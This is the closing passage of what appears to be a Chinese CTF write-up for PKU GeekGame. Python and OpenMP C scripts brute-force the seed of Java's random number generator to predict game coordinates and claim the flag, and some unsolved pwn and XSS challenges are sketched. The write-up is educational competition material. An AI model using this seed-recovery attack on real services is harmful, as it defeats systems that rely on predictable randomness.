当我用 C 语言写好一个很基本的 Java 随机数穷举算法时（这时我是用第三种 Ball 的坐标作为随机数源，`chunkSize` 是 193，所以穷举量是 `2 ** 48 / 193`），我发现在我的笔记本电脑上，大概 10 秒钟就跑了 1%。即使不考虑并行，这个穷举速度也完全能够接受，更别说简单加一个并行，就可以提速好几倍。我还可以用第四种 Ball，这样得到随机数的过程会慢一些，但是穷举会更快，这里就没必要了。

所以我第二问是非预期解，直接暴力穷举随机数的种子。

总结起来思路就是：先在 (0, 0) 附近的几个块探测某种 Ball 的位置坐标，然后穷举随机数生成器的内部状态，找到满足这个要求的状态，再回推出 `baseSeed`，即可知道其他 Ball 的位置。穷举的时候，根据 Java 随机数的生成算法，内部状态前 31 bit 的数 mod `chunkSize` 是生成的随机数，所以内部状态穷举每次增加 `chunkSize` 即可，后 17 bit 需要完全穷举，总次数是 `2 ** 48 / chunkSize`。

拿到随机数序列的代码是：

```python
import requests

token = '...'

def br(x, y):
    result = requests.post('https://prob16.geekgame.pku.edu.cn/api/break',
        params={'token': token, 'x': x, 'y': y}).json()
    print('br', x, y, result)
    return result

def state(x, y):
    return requests.get('https://prob16.geekgame.pku.edu.cn/api/state',
        params={'token': token, 'x': x, 'y': y}).json()

def reset():
    return requests.post('https://prob16.geekgame.pku.edu.cn/api/reset',
        params={'token': token, 'super': True}).json()

if __name__ == '__main__':
    reset()
    for size, name in [(193, "THIRD"), (48, "SECOND")]:
        for bx in range(5):
            l = bx * size
            r = bx * size + size
            for i in range(l // 32 * 32, r // 32 * 32 + 32, 32):
                for j in range(0, size, 32):
                    # print('Query', i, j)
                    s = state(i, j)["materials"]
                    for ii in range(32):
                        for jj in range(32):
                            if s[ii][jj] == name and l <= i + ii < r and j + jj < size:
                                x = i + ii
                                y = j + jj
                                print(name, bx, x % size, y)
```

有概率不同类型的 Ball 会互相重叠，此时再跑一次就行。

然后用 C 语言来并行穷举种子的代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <omp.h>

#define mod 193uL
#define param_a 0x30b9uL

int main(int argc, char **argv) {
    int datacnt = (argc - 1) / 2;
    int nums[2 * datacnt];
    for (int i = 1; i < argc; i++) {
        nums[i - 1] = atoi(argv[i]);
    }

    for (int i = 0; i < datacnt; i++) {
        printf("%d: %d, %d\n", i, nums[i * 2], nums[i * 2 + 1]);
    }

    int lasttime = time(0);
    unsigned long lastnum = 0;

    for (unsigned long bbase = nums[0] << 17; bbase < (1uL << 48); bbase += (mod << 17) * 65536 * 16) {
        if (time(0) != lasttime) {
            printf("%lx %g%% ETA=%lds\n", bbase, (double) bbase / (1L << 48) * 100, ((1L << 48) - bbase) / (bbase - lastnum + 1));
            lasttime = time(0);
            lastnum = bbase;
        }

        #pragma omp parallel for
        for (unsigned long base = bbase; base < bbase + (mod << 17) * 65536 * 16; base += mod << 17) {
            for (unsigned long n = base; n < base + (1uL << 17); n++) {
                if ((((n * 0x5DEECE66DuL + 0xBuL) & ((1uL << 48) - 1uL)) >> (48 - 31)) % mod == nums[1]) {
                    unsigned long seed = (((n - 0xBuL) * 0xdfe05bcb1365uL) & ((1uL << 48) - 1uL)) ^ 0x5DEECE66DuL;
                    int flag = 1;
                    for (int i = 1; i < datacnt; i++) {
                        unsigned long newseed = (seed + param_a * i) ^ 0x5DEECE66DuL;
                        newseed = (newseed * 0x5DEECE66DuL + 0xBuL) & ((1uL << 48) - 1uL);
                        if ((newseed >> (48 - 31)) % mod != nums[i * 2]) {
                            // printf("%ld %ld\n", (newseed >> (48 - 31)) % mod, nums[i * 2]);
                            flag = 0;
                            break;
                        }
                        newseed = (newseed * 0x5DEECE66DuL + 0xBuL) & ((1uL << 48) - 1uL);
                        if ((newseed >> (48 - 31)) % mod != nums[i * 2 + 1]) {
                            flag = 0;
                            break;
                        }
                    }

                    if (flag) {
                        printf("%lx\n", seed);
                    }
                }
            }
        }
    }
}
```

处理输出以及提交获得 flag 的代码是：

```python
import requests
from gmpy2 import invert

token = '...'

def br(x, y):
    result = requests.post('https://prob16.geekgame.pku.edu.cn/api/break',
        params={'token': token, 'x': x, 'y': y}).json()
    print('br', x, y, result)
    return result

def state(x, y):
    return requests.get('https://prob16.geekgame.pku.edu.cn/api/state',
        params={'token': token, 'x': x, 'y': y}).json()

def reset():
    return requests.post('https://prob16.geekgame.pku.edu.cn/api/reset',
        params={'token': token, 'super': True}).json()

BALLS = [
    ("FIRST", 29, 0x2e01, 0x76b5, 0x15beccc9, 0x7296ea13),
    ("SECOND", 53, 0x7c31, 0x7edf, 0x289223e1, 0x4878857f),
    ("THIRD", 193, 0x30b9, 0x5fcf, 0x3857dc53, 0x6e3bd3dd),
    ("FOURTH", 1543, 0x1159, 0x1445, 0x18b0a50b, 0x27d58de9),
    ("FIFTH", 24593, 0x683f, 0x42b5, 0x1b7a1d5b, 0x33f4f1a7),
    ("SIXTH", 393241, 0x1d75, 0x623b, 0x70517261, 0x3ac463fb),
    ("SEVENTH", 25165843, 0x4799, 0x3b11, 0x5b07e3b5, 0x6b85fa33),
]

data = """
THIRD 0 90 27
THIRD 1 180 175
THIRD 2 9 74
THIRD 3 65 36
THIRD 4 22 130
SECOND 0 43 36
"""

class jrng:
    def __init__(self, seed):
        self.seed = (seed ^ 0x5DEECE66D) & ((1 << 48) - 1)

    def nextint(self, m):
        self.seed = (self.seed * 0x5DEECE66D + 0xB) & ((1 << 48) - 1);
        return (self.seed >> (48 - 31)) % m

def getflag(baseseed):
    for name, size, a, b, c, d in BALLS:
        rng = jrng(c * baseseed + d)
        x = rng.nextint(size)
        y = rng.nextint(size)
        br(x, y)
        print(state(0, 0))

if __name__ == '__main__':
    with open('seeds.txt') as f:
        for line in f:
            if ':' in line or '%' in line:
                continue
            seed = int(line.split(' ')[0], 16)
            baseseed = (seed - 0x6e3bd3dd) * int(invert(0x3857dc53, 1<<48)) % (1<<48)
            flag = True
            for dataline in data.split('\n'):
                if not dataline.strip():
                    continue
                dname, bx, r1, r2 = dataline.split(' ')
                bx = int(bx)
                r1 = int(r1)
                r2 = int(r2)
                for name, size, a, b, c, d in BALLS:
                    if dname == name:
                        s = a * bx + c * baseseed + d
                        rng = jrng(s)
                        if rng.nextint(size) != r1:
                            flag = False
                        if rng.nextint(size) != r2:
                            flag = False

            if flag:
                print(baseseed)
                getflag(baseseed)
```

以上代码在我笔记本电脑的 4 核 CPU 上，大概 2 分钟就可以跑出来。

## 没做出来的题

「Q 小树洞的一大步」这个 XSS 题，找不到可以注入的点，源代码被混淆了，不想逆向，没思路。

「射水鱼」明显是构造可以读 flag 或者 getshell 的 DWARF 调试信息。我甚至怀疑出题人是做了 DEF CON 2021 Quals 的 [Exploit for dummies](https://xarkes.com/b/defcon-quals-2021-exploit-for-dummies.html) 然后出的这道题。DWARF 是图灵完备的，可以做到各种事情。思路明确，但是不想花时间研究了，只要花时间肯定能做出来，就这样吧。

「字符串转义」漏洞很明显，就是以 `\` 结尾的问题。但是我做 pwn 题非常不熟练，如果这道题没什么保护我可能会去试试。看了一下 binary 保护全开，算了。

「最强大脑」第二问，不擅长 pwn，还有 JIT，好复杂，不想看。

## 后记

我的这篇 Writeup 写的比较详细，里面不仅包含了解题所需的操作步骤和脚本，还包含了错误的尝试和思考过程，以及联想到的其他比赛的题目或者知识点。我认为，通过别人的 Writeup 来学习的时候，了解这些思维过程是很有帮助的。

如果你对 Writeup 中的哪部分有疑问，或者想告诉我更好的方法和工具，或者仅仅是想聊聊做题和出题中有趣的点子，都欢迎跟我讨论。

最后，希望北大 GeekGame 和 USTC Hackergame 都可以越办越好，也希望大家可以从中学到知识并且获得快乐。
